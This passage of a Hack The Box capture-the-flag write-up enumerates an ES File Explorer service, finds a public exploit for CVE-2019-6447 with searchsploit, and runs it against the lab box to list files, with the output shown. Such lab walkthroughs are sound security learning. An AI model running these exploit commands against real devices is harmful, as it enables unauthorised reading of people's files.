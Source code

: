 
## Enumeration
We got a clear service name here with "ES File Explorer":

```text
42135/tcp open     http    ES File Explorer Name Response httpd
|_http-title: Site doesn't have a title (text/html).
```

Let's look for any known exploits using searchsploit / the exploit-db:

```text
[/home/gn0stic/htb] λ searchsploit "ES File Explorer"
------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                               |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
ES File Explorer 4.1.9.7.4 - Arbitrary File Read                                                                                                             | android/remote/50070.py
```

I filtered out the other results as this one looks the most promising. It is for android, so it matches the victim machine's OS. It's usually best to fingerprint the service on the victim before running exploits against it, but without any obvious versioning anywhere, and given this is just a lab box, it's worth a quick attempt.

Downloaded the python exploit code to my local directory, and read through it. Looks pretty straight forward, it allows us to arbitrarily read files from the victim machine.

```text
[/home/gn0stic/htb/explore] λ searchsploit -m android/remote/50070.py
```

Let's run it with the listFiles option:

```text
[/home/gn0stic/htb/explore] λ python3 ./50070.py listFiles explore.htb

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

name : lib
time : 3/25/20 05:12:02 AM
type : folder
size : 12.00 KB (12,288 Bytes)

name : vndservice_contexts
time : 11/2/21 01:34:37 PM
type : file
size : 65.00 Bytes (65 Bytes)
```


[1]: https://app.hackthebox.com/users/27897
[2]: https://www.hackthebox.eu